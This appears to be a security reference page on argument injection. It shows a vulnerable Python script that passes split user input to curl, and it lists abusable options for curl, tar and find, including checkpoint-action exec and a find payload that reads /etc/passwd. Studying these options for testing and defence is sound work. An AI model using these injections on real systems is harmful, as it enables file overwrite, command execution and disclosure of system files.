# Argument Injection
Argument injection is similar to command injection as tainted data is passed to to a command executed in a shell without proper sanitization/escaping.

It can happen in different situations, where you can only inject arguments to a command:

- Improper sanitization (regex)
- Injection of arguments into a fixed command (PHP:escapeshellcmd, Python: Popen)
- Bash expansion (ex: *)

In the following example, a python script takes the inputs from the command line to generate a ```curl``` command:
```
from shlex import quote,split
import sys
import subprocess

if __name__=="__main__":
    command = ['curl']
    command = command + split(sys.argv[1])
    print(command)
    r = subprocess.Popen(command)
```
It is possible for an attacker to pass several words to abuse options from ```curl``` command
```
python python_rce.py "https://www.google.fr -o test.py" 
```
We can see by printing the command that all the parameters are splited allowing to inject an argument that will save the response in an arbitrary file.
```
['curl', 'https://www.google.fr', '-o', 'test.py']
```
## Summary

* [List of exposed commands](#List of exposed commands)
  * [TAR](#TAR)
  * [CURL](#CURL)
  * [WGET](#WGET)
* [References](#references)


## List of exposed commands

### CURL
It is possible to abuse ```curl``` through the following options:

```
 -o, --output <file>        Write to file instead of stdout
 -O, --remote-name          Write output to a file named as the remote file
```
In case there is already one option in the command it is possible to inject several URLs to download and several output options. Each option will affect each URL in sequence.

### TAR
For the ```tar``` command it is possible to inject arbitrary arguments in different commands. 

Argument injection can happen into the '''extract''' command:
```
--to-command <command>
--checkpoint=1 --checkpoint-action=exec=<command>
-T <file> or --files-from <file>
```

Or in the '''create''' command:
```
-I=<program> or -I <program>
--use-compres-program=<program>
```
There are also short options to work without spaces:
```
-T<file>
-I"/path/to/exec"
```

### FIND
Find some_file inside /tmp directory.
```
$file = "some_file";
system("find /tmp -iname ".escapeshellcmd($file));
```

Print /etc/passwd content.
```
$file = "sth -or -exec cat /etc/passwd ; -quit";
system("find /tmp -iname ".escapeshellcmd($file));
```


## References


- [staaldraad - Etienne Stalmans, November 24, 2019](https://staaldraad.github.io/post/2019-11-24-argument-injection/)
- [Back To The Future: Unix Wildcards Gone Wild - Leon Juranic, 06/25/2014] (https://www.exploit-db.com/papers/33930)
- [TL;DR: How exploit/bypass/use PHP escapeshellarg/escapeshellcmd functions - kacperszurek,  Apr 25, 2018] (https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)

